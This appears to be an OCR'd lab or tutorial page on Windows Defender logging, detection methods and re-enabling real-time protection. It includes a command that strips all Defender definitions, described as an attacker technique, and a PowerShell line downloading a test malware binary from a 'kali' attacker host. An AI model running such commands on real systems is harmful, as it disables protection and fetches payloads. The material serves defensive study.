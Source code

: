 Event 1117 reflects an action taken by Windows Defender with the symbolic name `MALWAREPROTECTION_STATE_MALWARE_ACTION_TAKEN`.

```pwsh
Get-WDLogEvent $null "12/2/2021 11:08:00" "12/2/2021 11:09:00"
```

```pwsh
Get-WDLogEvent 1117 "12/2/2021 11:08:07" "12/2/2021 11:08:09" | Format-List
```

The `Error Code` of 0 matches the Error description, confirming the operation completed successfully.

Definitions of malware and various categories are updated and stored in `%PROGRAMDATA%\Microsoft\Windows Defender\Definition Updates\Default`.

Attackers can use a command like `MpCmdRun.exe` to clear the definitions loaded into memory and render Windows Defender's concrete detections inoperable.

```bat
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

## Real-time Heuristic and Behavioral-Based Detection

**Heuristic-based detection** relies on various rules and algorithms to determine whether an action is considered malicious. 

- By stepping through the instruction set of a binary file or by attempting to decompile and then analyze the source code.

=> Find various patterns and program calls (as opposed to simple byte sequences) that are considered malicious.

**Behavior-based detection** dynamically analyzes the behavior of a binary file.

- By executing the file in question in an emulated environment, such as a small VM, and searching for behaviors or actions that are considered malicious.

Activating Windows Defender Antivirus in **Local Group Policy**, including the restart of Virus & threat protection.

Open Local Group Policy Editor via `gpedit.msc` > `Local Computer Policy` > `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus` > `Real-time Protection`.

The `Turn off real-time protection` setting is `Enabled`. We must `Disable` this in order to enable real-time protection.

When activating real-time protection, Windows Defender will generate a configuration change with Event ID `5007`.

The `HKLM\SOFTWARE\Microsoft\Windows Defender\Features\TamperProtection` key in the Windows Registry will change from 0x0 to 0x1.

Download or execute malicious files.

```pwsh
Invoke-Webrequest -Uri http://kali:8000/signature_detect_staged.exe -OutFile signature_detect_staged.exe; Get-Date
```
